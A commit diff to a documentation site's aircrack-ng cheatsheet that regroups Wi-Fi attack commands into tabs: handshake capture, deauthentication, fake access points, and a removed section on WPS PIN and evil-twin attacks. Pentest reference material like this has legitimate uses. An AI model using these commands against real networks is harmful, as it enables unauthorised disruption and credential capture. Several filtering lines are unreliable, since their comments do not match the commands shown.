

Before and after one commit to DirtyOptics/airbreach, an MkDocs documentation site: the page built from docs/cheatsheets/aircrack-ng-cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 4027 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
vault backup: 2025-10-22 07:11:34

````diff
--- a/docs/cheatsheets/aircrack-ng-cheatsheet.md
+++ b/docs/cheatsheets/aircrack-ng-cheatsheet.md
@@ -120,106 +120,163 @@
 
 ## 🎯 AP Discovery & Targeting
 
-### **Basic AP Scan**
-```bash
-# Scan all channels
-sudo airodump-ng wlan0mon
+=== "Basic Scanning"
 
-# Scan specific channel
-sudo airodump-ng -c 6 wlan0mon
+    ### **Basic AP Scan**
+    ```bash
+    # Scan all channels
+    sudo airodump-ng wlan0mon
 
-# Scan multiple channels
-sudo airodump-ng -c 1,6,11 wlan0mon
-```
+    # Scan specific channel
+    sudo airodump-ng -c 6 wlan0mon
 
-### **Target Specific Networks**
-```bash
-# Target by BSSID
-sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF wlan0mon
+    # Scan multiple channels
+    sudo airodump-ng -c 1,6,11 wlan0mon
+    ```
 
-# Target by ESSID (network name)
-sudo airodump-ng -c 6 --essid "TargetNetwork" wlan0mon
+    !!! tip "Channel Selection"
+        - **2.4GHz**: Channels 1, 6, 11 (non-overlapping)
+        - **5GHz**: Channels 36, 40, 44, 48
+        - **Scan all**: Use `wlan0mon` without channel specification
 
-# Target with file output
-sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
-```
+=== "Target Specific"
 
-### **Advanced Filtering**
-```bash
-# Filter by encryption
-sudo airodump-ng --encrypt WPA wlan0mon
+    ### **Target Specific Networks**
+    ```bash
+    # Target by BSSID
+    sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF wlan0mon
 
-# Filter by signal strength
-sudo airodump-ng --manufacturer "Cisco" wlan0mon
+    # Target by ESSID (network name)
+    sudo airodump-ng -c 6 --essid "TargetNetwork" wlan0mon
 
-# Filter by data rate
-sudo airodump-ng --manufacturer "Netgear" wlan0mon
-```
+    # Target with file output
+    sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon
+    ```
+
+    !!! info "Targeting Strategy"
+        1. **Broad scan** to identify all APs
+        2. **Narrow down** by channel or BSSID
+        3. **Capture** specific targets
+
+=== "Advanced Filtering"
+
+    ### **Advanced Filtering**
+    ```bash
+    # Filter by encryption
+    sudo airodump-ng --encrypt WPA wlan0mon
+
+    # Filter by manufacturer
+    sudo airodump-ng --manufacturer "Cisco" wlan0mon
+
+    # Filter by data rate
+    sudo airodump-ng --manufacturer "Netgear" wlan0mon
+    ```
+
+    !!! warning "Filtering Tips"
+        - Use **encryption filters** to find WEP/WPA networks
+        - **Manufacturer filters** help identify specific router types
+        - **Signal strength** filtering finds high-power targets
 
 ---
 
 ## 🔍 Channel & SSID Targeting
 
-### **Channel Analysis**
-```bash
-# Scan specific channel range
-sudo airodump-ng -c 1-6 wlan0mon
+=== "Channel Analysis"
 
-# Focus on 2.4GHz channels
-sudo airodump-ng -c 1,6,11 wlan0mon
+    ### **Channel Analysis**
+    ```bash
+    # Scan specific channel range
+    sudo airodump-ng -c 1-6 wlan0mon
 
-# Focus on 5GHz channels
-sudo airodump-ng -c 36,40,44,48 wlan0mon
-```
+    # Focus on 2.4GHz channels
+    sudo airodump-ng -c 1,6,11 wlan0mon
 
-### **SSID Targeting Strategy**
-```bash
-# 1. Initial broad scan
-sudo airodump-ng wlan0mon
+    # Focus on 5GHz channels
+    sudo airodump-ng -c 36,40,44,48 wlan0mon
+    ```
 
-# 2. Identify target channel
-sudo airodump-ng -c [TARGET_CHANNEL] wlan0mon
+    !!! info "Channel Selection Guide"
+        - **2.4GHz**: 1, 6, 11 (non-overlapping)
+        - **5GHz**: 36, 40, 44, 48 (common channels)
+        - **Range scanning**: Use `-c 1-6` for multiple channels
 
-# 3. Focus on specific BSSID
-sudo airodump-ng -c [CHANNEL] --bssid [BSSID] wlan0mon
+=== "SSID Strategy"
 
-# 4. Capture handshake
-sudo airodump-ng -c [CHANNEL] --bssid [BSSID] -w capture wlan0mon
-```
+    ### **SSID Targeting Strategy**
+    ```bash
+    # 1. Initial broad scan
+    sudo airodump-ng wlan0mon
+
+    # 2. Identify target channel
+    sudo airodump-ng -c [TARGET_CHANNEL] wlan0mon
+
+    # 3. Focus on specific BSSID
+    sudo airodump-ng -c [CHANNEL] --bssid [BSSID] wlan0mon
+
+    # 4. Capture handshake
+    sudo airodump-ng -c [CHANNEL] --bssid [BSSID] -w capture wlan0mon
+    ```
+
+    !!! tip "Targeting Workflow"
+        1. **Broad scan** to see all networks
+        2. **Channel focus** to reduce noise
+        3. **BSSID targeting** for specific AP
+        4. **Handshake capture** for cracking
 
 ---
 
 ## ⚡ Handshake Capture Process
 
-### **Method 1: Passive Capture**
-```bash
-# Start capture
-sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon
+=== "Passive Capture"
 
-# Wait for client to connect naturally
-# Monitor for WPA handshake in top-right corner
-```
+    ### **Method 1: Passive Capture**
+    ```bash
+    # Start capture
+    sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon
 
-### **Method 2: Active Deauth Attack**
-```bash
-# Terminal 1: Capture handshake
-sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon
+    # Wait for client to connect naturally
+    # Monitor for WPA handshake in top-right corner
+    ```
 
-# Terminal 2: Deauth attack
-sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon
+    !!! info "Passive Method"
+        - **Pros**: No interference, stealthy
+        - **Cons**: Requires patience, depends on client activity
+        - **Best for**: High-traffic networks with regular connections
 
-# Terminal 3: Target specific client
-sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c CLIENT:MAC:ADDR wlan0mon
-```
+=== "Active Deauth"
 
-### **Method 3: Fake AP Attack**
-```bash
-# Create fake AP
-sudo airbase-ng -a AA:BB:CC:DD:EE:FF --essid "FreeWiFi" wlan0mon
+    ### **Method 2: Active Deauth Attack**
+    ```bash
+    # Terminal 1: Capture handshake
+    sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w handshake wlan0mon
 
-# Capture handshakes from connecting clients
-sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w fake_handshake wlan0mon
-```
+    # Terminal 2: Deauth attack
+    sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon
+
+    # Terminal 3: Target specific client
+    sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c CLIENT:MAC:ADDR wlan0mon
+    ```
+
+    !!! warning "Active Method"
+        - **Pros**: Faster results, more reliable
+        - **Cons**: More detectable, may cause network disruption
+        - **Best for**: Testing environments, authorized assessments
+
+=== "Fake AP Attack"
+
+    ### **Method 3: Fake AP Attack**
+    ```bash
+    # Create fake AP
+    sudo airbase-ng -a AA:BB:CC:DD:EE:FF --essid "FreeWiFi" wlan0mon
+
+    # Capture handshakes from connecting clients
+    sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w fake_handshake wlan0mon
+    ```
+
+    !!! danger "Fake AP Method"
+        - **Pros**: Can capture multiple handshakes
+        - **Cons**: Highly detectable, requires careful setup
+        - **Best for**: Advanced testing, social engineering scenarios
 
 ---
 
@@ -260,39 +317,7 @@
 
 ---
 
-## 🛠️ Advanced Techniques
 
-### **WPS Attacks**
-```bash
-# WPS PIN attack
-sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -vv
-
-# WPS with pixie dust
-sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -K 1 -vv
-
-# WPS with specific PIN
-sudo reaver -i wlan0mon -b AA:BB:CC:DD:EE:FF -p 12345670 -vv
-```
-
-### **Evil Twin Attacks**
-```bash
-# Create evil twin
-sudo airbase-ng -a AA:BB:CC:DD:EE:FF --essid "TargetNetwork" wlan0mon
-
-# Capture credentials
-sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w evil_capture wlan0mon
-```
-
-### **Rogue AP Detection**
-```bash
-# Monitor for rogue APs
-sudo airodump-ng --manufacturer "Unknown" wlan0mon
-
-# Check for duplicate ESSIDs
-sudo airodump-ng --essid "TargetNetwork" wlan0mon
-```
-
----
 
 ## 📊 Monitoring & Analysis
 
````
